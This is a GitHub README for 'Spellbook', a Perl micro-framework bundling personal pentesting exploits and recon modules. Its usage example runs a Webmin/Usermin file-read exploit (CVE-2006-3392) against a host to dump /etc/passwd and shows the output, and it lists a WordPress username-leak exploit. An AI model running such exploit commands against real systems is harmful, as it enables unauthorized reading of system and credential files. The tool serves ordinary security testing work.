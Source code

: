 <p align="center">
  <img src="https://heitorgouvea.me/images/projects/spellbook/logo.png" width="120px" height="120px">
  <h3 align="center"><b>Spellbook</b></h3>
  <p align="center">A micro-framework for rapid development of reusable security tools</p>
  <p align="center">
    <a href="https://github.com/htrgouvea/spellbook/blob/master/LICENSE.md">
      <img src="https://img.shields.io/badge/license-MIT-blue.svg">
    </a>
    <a href="https://github.com/htrgouvea/spellbook/releases">
      <img src="https://img.shields.io/badge/version-0.0.7-blue.svg">
    </a>
  </p>
</p>

---

### Summary

Here you will find a "spellbook" with my personal scripts, exploits and other small things I wrote during my bug hunting jorney, pentesting or red teaming missions. Like any other spellbook, some things here are not going to be very easy to understand, it couldn't be different, right?

The main focus of this "micro-framework" is to keep my personal scripts organized and make them available in a structure where I can reuse the code that has already been written to write something else. Furthermore, the Spellbook is just a research project that so far is no big deal and does not replace a truly robust framework.

---

### Download and install

```
  # Download
  $ git clone https://github.com/htrgouvea/spellbook && cd spellbook

  # Install libs and dependencies
  $ cpan install Getopt::Long Mojo::File Mojo::JSON
```

---

### How to use

```
Spellbook v0.0.7
Core Commands
==============
	Command          Description
	-------          -----------
	-s, --search     List modules, you can filter by category
	-m, --module     Set a module to use
	-t, --target     Set a target
	-p, --parameter  Set a value for a module parameter
```

### Example

```bash
# Searching for exploits 
$ perl spellbook.pl --search exploits

Module: Exploits::CVE_2017_5487
Category: exploits
Description: Read usernames leaked on WordPress API
=================================================

Module: Exploits::CVE_2006_3392
Category: exploits
Description: Read arbitrary files for servers running Webmin before 1.290 and Usermin before 1.220
=================================================
...

# Using an exploit
$ perl spellbook.pl -m Exploits::CVE_2006_3392 -t http://172.30.0.15:10000/ -p /etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
...
```

---

### Developing new modules

You need to specify your module in the list of Spellbook modules, present in: .config/modules.json; Just copy the last block of the json and insert the information of the new module;

```json
{
    "modules": [
        {
            "id": "0001",
            "category": "recon",
            "module": "Recon::Find_Emails",
            "description": "Find e-mails from a domain using hunter.io API",
            "location": "Recon/Find_Emails.pm"
        },
        {
            "id": "0002",
            "category": "exploits",
            "module": "Exploits::CVE_2017_5487",
            "description": "Read usernames leaked on WordPress API",
            "location": "Exploits/CVE_2017_5487.pm"
        },
...
```

All modules are stored and accessible through the lib/Spellbook folder, each module is organized in a third folder that defines its category, such as:

```
.
├── Core
│   ├── Credentials.pm
│   ├── Helper.pm
│   ├── Module.pm
│   └── Search.pm
├── Exploits
│   ├── CVE_2006_3392.pm
│   └── CVE_2017_5487.pm
├── Helpers
│   ├── Exifs.pm
│   └── New_Target.pm
└── Recon
    ├── Bing.pm
    ├── Extract_Links.pm
    ├── Find_Emails.pm
    ├── Get_IP.pm
    ├── Host_Resolv.pm
    └── Passive_Enum.pm
```

As for the code you need to follow a basic structure which is:

```perl
package Spellbook::Core::Name {
    use strict;
    use warnings;

    sub new {
        my ($self, $target, $parameter) = @_;
        @result = ();
        # Your code
        return @result;
    }
}

1;
```

---

### Contribution

- Your contributions and suggestions are heartily ♥ welcome. [See here the contribution guidelines.](/.github/CONTRIBUTING.md) Please, report bugs via [issues page](https://github.com/htrgouvea/spellbook/issues) and for security issues, see here the [security policy.](/SECURITY.md) (✿ ◕‿◕) This project follows the best practices defined by this [style guide](https://heitorgouvea.me/projects/perl-style-guide).

---

### License

- This work is licensed under [MIT License.](/LICENSE.md)